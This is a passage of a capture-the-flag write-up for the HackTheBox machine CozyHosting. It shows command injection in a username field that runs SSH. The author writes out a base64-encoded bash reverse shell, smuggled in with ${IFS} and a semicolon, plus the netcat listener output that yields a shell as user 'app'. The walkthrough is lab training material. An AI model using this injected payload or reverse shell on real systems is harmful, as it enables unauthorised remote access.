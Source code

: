 ![cozyhosting_burp1.png](../assets/cozyhosting_assets/cozyhosting_burp1.png)

### Exploitation

Playing with these fields a bit we get an interesting error when trying command injection in the username field:

![cozyhosting_burp2.png](../assets/cozyhosting_assets/cozyhosting_burp2.png)

So looks like the application is legitimately trying to run SSH, and also appears to be vulnerable to command injection. 

I had to fiddle with the payloads quite a bit, but a combination of base64 and `${IFS}` was able to catch me a reverse shell. 

First I encoded `/bin/bash -i >& /dev/tcp/10.10.14.78/443 0>&1` at revshells.com, then set up a listener, and passed in the command in Burp:

```
username=a;echo${IFS}L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEwLjEwLjE0Ljc4LzQ0MyAwPiYxCg==ddl|base64${IFS}-d|bash;
```

Catches me a shell back as app
```
┌──(ryan㉿kali)-[~/HTB/CozyHosting]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.78] from (UNKNOWN) [10.10.11.230] 59244
bash: cannot set terminal process group (1063): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$ whoami
whoami
app
app@cozyhosting:/app$ hostname
hostname
```